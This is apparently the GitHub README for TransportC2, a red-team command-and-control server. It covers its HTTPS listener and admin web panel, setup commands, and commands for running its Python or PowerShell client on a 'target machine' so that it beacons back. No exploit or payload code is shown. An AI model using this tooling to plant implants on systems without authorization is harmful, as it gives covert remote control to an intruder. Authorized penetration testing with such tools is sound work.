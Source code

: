 # TransportC2
![](https://img.shields.io/badge/Status-PoC-orange.svg)&nbsp;&nbsp;
![](https://img.shields.io/badge/Development-Active-green.svg)&nbsp;&nbsp;

TransportC2 is a command and control server with a full GUI that allows interaction with clients through a private web interface. This allows penetration testers and red teamers the ability maintain their connection without being tied to an active session. Once logged into the admin interface, add new authorized users for team interaction and collaboration. 

## Server
Built in Python3, the TransportC2 server was designed for and tested on Debian based Linux Distributions, and has two components: 
1) An HTTPS server that runs over port 443 and accepts incoming client connections. 
2) An HTTPS admin interface that runs over port 8443 and allows users to interact with clients via web browser. This portal requires a username and password with a default login of **admin**:**admin**. Once logged in user's can change their password and add other users to allow team sharing.

#### Install
The setup.sh script will install all necessary requirements, create cert & key files, and move the working directory to /opt/transportc2:
```bash
git clone https://github.com/m8r0wn/transportc2
cd transportc2/install
sudo chmod +x setup.sh
./setup.sh
```

#### Interact with C2 Service
```bash
sudo systemctl start transportc2.service
sudo systemctl stop transportc2.service
sudo systemctl status transportc2.service
```


## Client
As of now, TransportC2 has clients written in Python 2/3 and PowerShell. Clients will make HTTPS requests to the C2 server and mimic a web connection. Variables at the top of the client file can be modified to change client check-in intervals, requesting page, etc. 

#### Client Usage
Run the client on a target machine:
```bash
python3 client.py 127.0.0.1 443
```
```bash
Import-Module .\client.ps1
Invoke-Client -ServerIP 127.0.0.1 -Port 443
```

#### Client Commands
Once a client is connected, login to the Admin Interface to execute one of the following commands:

![HelpMenu](server/AdminServer/static/img/help.png)

## Screenshots
![Login](server/AdminServer/static/img/login.png)

![CmdPanel](server/AdminServer/static/img/cmd.png)

## Contributors 
Thanks to the following contributors that made this project possible:
* @darneymartin